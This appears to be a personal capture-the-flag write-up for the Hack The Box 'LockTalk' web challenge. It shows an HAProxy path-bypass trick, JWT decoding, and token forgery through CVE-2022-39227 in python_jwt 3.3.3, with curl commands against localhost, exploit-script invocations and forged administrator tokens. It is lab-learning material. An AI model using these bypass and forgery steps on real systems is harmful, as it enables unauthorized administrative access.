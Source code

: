 # locktalk

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

## Attempt

```py
# config.py
FLAG = "HTB{f4k3_fl4g_f0r_t35t1ng}"
JWT_SECRET_KEY = jwk.JWK.generate(kty='RSA', size=2048)

# middleware.py
token = jwt.verify_jwt(token, current_app.config.get('JWT_SECRET_KEY'), ['PS256'])
# jwt.verify_jwt(jwt, pubkey, allowed_algs)
```

definitely this - https://github.com/davedoesdev/python-jwt

Note: Versions 3.3.4 and later fix a vulnerability (CVE-2022-39227) in JSON Web Token verification 
which lets an attacker with a valid token re-use its signature with modified claims. 
CVE to follow. Please upgrade!

requirements.txt has python_jwt==3.3.3

https://rawgit-now.netlify.app/davedoesdev/python-jwt/master/docs/_build/html/index.html

```sh
curl 'http://localhost:1337/api/v1/get_ticket'

curl 'http://localhost:1337/api/v1/%67et_ticket'

# haproxy.cfg is blocking requests to /api/v1/get_ticket

curl --path-as-is 'http://localhost:1337/api/v1/./get_ticket'
```

```json
{
  "ticket: ": "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
}

// eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
{
  "exp": 1710116450,
  "iat": 1710112850,
  "jti": "7_9td8xh18AO_ZysCzXtUg",
  "nbf": 1710112850,
  "role": "guest",
  "user": "guest_user"
}
```

JWT: < Header + '.' + Payload + '.' + Signature


eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9
.
eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
.
QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA

```sh
# add administrator
echo -n '{"exp": 1710116450, "iat": 1710112850, "jti": "7_9td8xh18AO_ZysCzXtUg", "nbf": 1710112850, "role": "administrator", "user": "guest_user"}' | base64
# eyJleHAiOiAxNzEwMTE2NDUwLCAiaWF0IjogMTcxMDExMjg1MCwgImp0aSI6ICI3Xzl0ZDh4aDE4QU9fWnlzQ3pYdFVnIiwgIm5iZiI6IDE3MTAxMTI4NTAsICJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=

echo -n '{"role": "administrator", "user": "guest_user"}' | base64
# eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=


# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA

curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOiAxNzEwMTE2NDUwLCAiaWF0IjogMTcxMDExMjg1MCwgImp0aSI6ICI3Xzl0ZDh4aDE4QU9fWnlzQ3pYdFVnIiwgIm5iZiI6IDE3MTAxMTI4NTAsICJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
# incorrect padding

curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjogImFkbWluaXN0cmF0b3IiLCAidXNlciI6ICJndWVzdF91c2VyIn0=.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
```


```sh
# copied from https://github.com/user0x1337/CVE-2022-39227

python3 exploit.py -i role=administrator -j 'eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwAeyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ'
# [+] New token: {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"}

```

```
Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"}
```


```json
{
  "  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.": "",
  "protected": "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9",
  "payload": "eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ",
  "signature": "QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
}

// eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA
```

```sh
curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTY0NTAsImlhdCI6MTcxMDExMjg1MCwianRpIjoiN185dGQ4eGgxOEFPX1p5c0N6WHRVZyIsIm5iZiI6MTcxMDExMjg1MCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.QHP2hH-D_L4WMnyMbU6X6axV-c8ERbX7w6n842Ce8EgtSNFVZ9D6nRx2FjzTVqdseBfc_mfRXLidtGTferdGQdlim3Qof30CpTq132_Xi9Q1csSqYpEJ5sws3TQ2GU8P3sCtiiOhotJehH7UkxzHddszQiKsk9oBqa_j2Hac0HjfyxWMGEEOJ2pkBsPvIjExRgyfge3wKgnifsUgmcWLyhklCD-s4rbNGa4f-UG5MZkF1sSuWhqZz08AYOQ66Puqb4mkJhnFPco6eLQbwuI89Xz0eI80jryYmh9aCLnt-SJU2Hbt1xStWmVPvKir2ZpeASDVlLSsx-D6oyZOe4cgwA"
```

redo!

```sh
curl --path-as-is 'http://localhost:1337/api/v1/./get_ticket'
# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg

python3 exploit.py -i role=administrator -j eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg
# {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg"}

# eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAxMTkxNDgsImlhdCI6MTcxMDExNTU0OCwianRpIjoiRGJEdHJRU0pXY09EZ3ZhTzV6Rkw2USIsIm5iZiI6MTcxMDExNTU0OCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.AlG5UrwM1TXNXC5trnXCuAehmwru_mW-NqAZ6jjxuh8UtwisvdeV7k9R5AgkyR2bTZVb-v2_S5aQ-zd6MRnUwrPHpnubMBezdVnmBiTs6C1OcAFAFV6l3bIskltVJ8LoL7WNZbhSgUqOf-AWoZ7e_uDnpTMR0k5xoNqTDkReF2tBGgqUlGAQLiLG1-n2ICTQUelfA5waFHv-aNOc9g91dSOe_7nLM1QRwJiG4hQAZzB1cc0JzLZP0NVPORP7USa9TQDtF_FBgTZsweEIbrOGCN3bFsFfnTHiD8fE9lYUfNQQvjShJV-OYwPem1Vf4lYxlmZrDSDARwSLrt2SONlLLg
curl 'http://localhost:1337/api/v1/flag' -H "Authorization: Bearer
```

## Solution

https://youtu.be/EGItzKCxTdQ?si=_g3O8TReB2pIEMRh&t=908

requirements.txt -> python_jwt=3.3.3 CVE - token forgery exploit

haproxy.cfg is blocking requests to /api/v1/get_ticket

use something like this - 'http://localhost:1337/api/v1/./get_ticket'

get token from get_ticket

use https://github.com/user0x1337/CVE-2022-39227 exploit script

run exploit with JWT and `role=administrator` claim

pass payload to get_flag endpoint

I guess I did something wrong in my attempt...
